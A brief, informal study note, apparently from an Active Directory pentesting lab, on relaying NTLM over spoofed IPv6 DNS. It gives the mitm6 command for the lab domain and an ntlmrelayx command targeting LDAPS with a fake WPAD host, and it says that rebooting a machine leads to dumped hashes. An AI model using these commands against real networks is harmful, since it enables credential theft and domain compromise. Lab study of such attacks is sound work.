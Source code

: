 
This is one of the craziest attack that we can pull of without any access.
```
mitm6 -d marvel.local
```

Before running the above command we have to run the ntlm relay
```
ntlmrelayx.py -6 -t ldaps://192.168.17.139 -wh fakewpad.marvel.local -l lootme 
```
![[Pasted image 20240122221820.png]]
Make Sure there are no error and it should run like this

We can only run mitm6 in small sprints and to trigger the event will simply reboot the machine and than the relay effect will come into play and will get the hashes dump

